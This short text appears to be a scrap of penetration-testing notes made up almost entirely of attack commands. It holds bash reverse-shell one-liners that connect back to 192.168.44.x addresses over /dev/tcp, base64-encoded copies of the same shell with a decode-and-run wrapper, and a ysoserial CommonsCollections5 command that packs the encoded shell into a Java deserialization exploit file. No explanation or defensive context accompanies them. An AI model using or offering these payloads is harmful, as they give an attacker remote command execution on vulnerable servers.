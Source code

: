 bash -i >& /dev/tcp/192.168.44.131/1234 0>&1

bash -i >& /dev/tcp/192.168.44.158/4444 0>&1

base64 YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=

bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}'

YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS84ODg4IDA+JjE=

java -jar ysoserial.jar CommonsCollections5 "bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}'" > poc.ser